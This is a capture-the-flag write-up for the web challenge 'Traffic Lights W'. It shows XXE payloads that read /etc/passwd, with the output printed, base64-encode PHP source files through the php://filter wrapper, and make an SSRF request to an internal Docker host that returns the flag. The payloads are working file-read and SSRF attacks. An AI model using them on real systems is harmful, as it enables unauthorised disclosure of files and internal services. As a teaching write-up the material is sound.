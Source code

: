 # Traffic Lights W [web]

- Score: 100
- Solves: 162

## Solution

We can do XXE attack.

The following post compromises a file on the server if the file path is known:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE content [
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
 <content>&xxe;</content>
</root>
```

```
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin
```

And, by using [PHP built-in wrapper](https://www.php.net/manual/en/wrappers.php), we can see server's source code as follows:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE content [
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php" >]>
<root>
 <content>&xxe;</content>
</root>
```

-> `index.php`

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE content [
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=firmware_upload.php" >]>
<root>
 <content>&xxe;</content>
</root>
```

-> `firmware_upload.php`

However, I could not locate the flag from the source code.

I saw the web page again...

![](web.png)

`Docker Hostname` and `Port` keywords are suspicious.

I tried to access `http://traffic-light-1004:80` from the web server:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE content [
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=http://traffic-light-1004:80" >]>
<root>
 <content>&xxe;</content>
</root>
```

```
SWYgeW91J3JlIHJlYWRpbmcgdGhpcy4uLiBZb3UgZm91bmQgb3V0IHRoYXQgdGhlIHRyYWZmaWMgbGlnaHRzIGFyZSBmYWtlLgpEb24ndCB0ZWxsIGFueW9uZS4gSGVyZSdzIGEgZmxhZyB0byBtYWtlIHlvdSBoYXBweTogZmxhZ3tzaGhfaW1fbWluaW5nX2JpdGNvaW59Cg==
```

I executed:

```fish
$ echo SWYgeW91J3JlIHJlYWRpbmcgdGhpcy4uLiBZb3UgZm91bmQgb3V0IHRoYXQgdGhlIHRyYWZmaWMgbGlnaHRzIGFyZSBmYWtlLgpEb24ndCB0ZWxsIGFueW9uZS4gSGVyZSdzIGEgZmxhZyB0byBtYWtlIHlvdSBoYXBweTogZmxhZ3tzaGhfaW1fbWluaW5nX2JpdGNvaW59Cg== | base64 -d -
If you're reading this... You found out that the traffic lights are fake.
Don't tell anyone. Here's a flag to make you happy: flag{shh_im_mining_bitcoin}
```

## Flag

`flag{shh_im_mining_bitcoin}`
